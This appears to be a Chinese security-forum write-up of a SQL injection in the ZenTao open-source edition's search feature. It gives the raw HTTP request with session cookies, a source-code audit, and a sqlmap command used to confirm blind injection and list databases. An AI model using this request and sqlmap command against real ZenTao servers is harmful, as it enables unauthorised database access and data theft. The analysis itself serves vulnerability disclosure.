







# 禅道CMS开源版SQL注入漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/16413  
> **文章ID**: 16413

---

**禅道CMS开源版存在SQL注入漏洞**  
**官网：**<https://www.zentao.net/>  
**影响版本：**开源版21.1及以下版本  
**漏洞类型：**SQL注入  
**漏洞url：**<http://192.168.88.9//index.php?m=search&f=index&words=2&type=all&zin=1>  
**漏洞数据包（请手动抓包验证漏洞）：**  
GET /index.php?m=search&f=index&words=1*&type=all&zin=1 HTTP/1.1  
Host: 192.168.88.6  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0  
Accept:* / *Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Referer: <http://192.168.88.6/>  
X-ZIN-Options: {"selector":["#configJS","title>*","body>\*"],"type":"list"}  
X-ZIN-App: search  
X-Zin-Cache-Time: 0  
X-Requested-With: XMLHttpRequest  
Connection: keep-alive  
Cookie: zentaosid=d5ikdmm295l1ca5ec4an8p4f7u; lang=zh-cn; vision=rnd; device=desktop; theme=default; keepLogin=on; za=admin; zp=abd630d8e942046184fb94d4e591e66cd011665a; hideMenu=false; tab=search  
Priority: u=4

**漏洞复现过程：**  

随便输入一点东西进行搜索

确定搜索参数为words  
输入单引号页面报错怀疑存在sql注入

对源码进行审计：  
根据路由来到module\search\ control.php  
在index这个方法中，words 参数被直接传递给 getList 方法，而 getList 方法在 model.php 中定义

接着来到 model.php，words 参数主要在 getList 方法中使用，在这个方法中，keywords 参数被传递给 getSqlParams 方法，并且 againstCond 和 likeCondition 被直接插入到 SQL 查询中。

再接着来到module\search\tao.php  
分析getSqlParams 方法

这里存在 SQL 注入漏洞，因为 keywords 参数没有进行任何过滤或转义处理。

在 againstCond 的拼接过程中，每个单词被直接添加到查询条件中，没有进行任何过滤或转义处理。如果 $word 是单引号（'），它会被包含在 + 运算符和双引号内，导致生成的 SQL 查询语句不正确。likeCondition 直接将 $keywords 插入到 SQL 查询中，没有进行任何过滤或转义处理。如果 $keywords 包含特殊字符（如单引号等），会导致生成的 SQL 查询语句不正确，从而产生 SQL 注入漏洞。

$keywords 变量的处理会将这个单引号字符传递给 $against 和 $againstCond。  
最终生成的 SQL 查询语句中会出现不正确的字符，导致 SQL 注入漏洞。

上述分析后接下来对搜索功能的数据包进行抓包并把参数加入\*号 放入sqlmap进行测试

命令如下：  
python sqlmap.py -r 1.txt --level=5 --risk=3 --threads=10 --dbms=mysql

扫描出多个盲注

执行—dbs尝试查询数据库验证漏洞

验证成功，到此结束
